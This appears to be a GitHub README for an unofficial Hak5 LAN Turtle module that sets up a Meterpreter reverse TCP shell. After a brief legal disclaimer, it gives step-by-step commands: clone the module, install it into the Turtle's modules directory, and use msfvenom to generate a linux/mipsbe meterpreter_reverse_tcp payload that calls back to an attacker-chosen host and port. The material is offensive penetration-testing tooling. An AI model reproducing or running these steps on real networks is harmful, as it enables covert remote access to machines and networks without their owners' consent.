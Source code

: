 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use of this module, remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - Download module from github**<br />
`git clone https://github.com/ATTACKnDEFEND/LanTurtlemeterpreter-mipsbe-reverse-tcp`

**2 - copy meterpreter-mipsbe-reverse-tcp to Hak5 Turtle modules directory**<br />
`copy meterpreter-mipsbe-reverse-tcp /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali generate Meterpreter payload with Msfvenom**<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f elf > meterpreter-mipsbe-reverse-tcp`







